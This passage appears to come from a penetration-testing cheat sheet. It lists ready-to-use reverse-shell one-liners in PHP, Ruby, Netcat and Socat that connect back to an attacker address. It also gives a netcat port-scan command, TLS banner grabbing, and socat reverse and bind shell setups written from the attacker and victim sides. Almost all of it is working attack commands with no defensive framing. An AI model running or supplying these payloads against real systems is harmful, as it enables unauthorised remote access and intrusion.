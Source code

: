 ## PHP:

```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Ruby:

```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat:

```
nc -e /bin/sh 10.0.0.1 1234
```

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```
Netcat port scanner

```
echo "" | nc -nvw2 <IP> <Port Range>
```

Netcat and OpenSSL banner grabbing

```
ncat -vC --ssl www.target.org 443
openssl s_client -crlf -connect www.target.org:443
```

## Socat:

Reverse shell:

On the attack platform:

```
root@attacker# socat file:`tty`,raw,echo=0 tcp-listen:5555
```

On the victim platform:

```
user@victim $ socat tcp-connect:<Attacker IP>:5555 exec:/bin/sh,pty,stderr,setsid,sigint,sane
```

Bind shell:

On the attack platform:

```
root@attacker# socat FILE:`tty`,raw,echo=0 TCP:<Target IP>:5555
```
